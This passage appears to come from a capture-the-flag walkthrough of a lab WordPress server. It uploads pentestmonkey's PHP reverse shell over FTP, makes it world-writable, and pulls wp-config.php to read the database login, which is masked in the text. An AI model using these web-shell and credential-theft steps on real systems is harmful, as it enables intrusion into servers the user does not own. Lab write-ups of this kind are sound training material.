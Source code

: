 You can download a php-reverse-shell.php from pentestmonkey (make the required edits to ip addr)
Link: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

```
put php-reverse-shell.php
chmod +x php-reverse-shell.php
chmod 777 php-reverse-shell.php
```
Note that after this if we try to access the file at $IP/php-reverse-shell.php, our nc listener doesnt catch anything.
Something is wrong and we must analyze further.

#### Downloading config file

```
ftp> get
(remote-file) wp-config.php
(local-file) wp-config.php
local: wp-config.php remote: wp-config.php
227 Entering Passive Mode (10,10,82,1,134,74).
150 Opening BINARY mode data connection for wp-config.php (3194 bytes).
226 Transfer complete.
3194 bytes received in 0.00 secs (3.1114 MB/s)
```
## Accessing url

The url /wp-config.php is inaccessible directly therfore we downloaded the config file. Let's see if we can find something interesting that will lead us to uploading our reverse shell.

#### Reading config file

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', '***********' );

/** MySQL database username */
define( 'DB_USER', '**********' );

/** MySQL database password */
define( 'DB_PASSWORD', '*****' );
```
#### Logging in 

Using the credentials above

```
$IP/**********
```
#### Accessing the url

We'll find that the wordpress site is actually running on a subdomain and that's where our shell got uploaded.
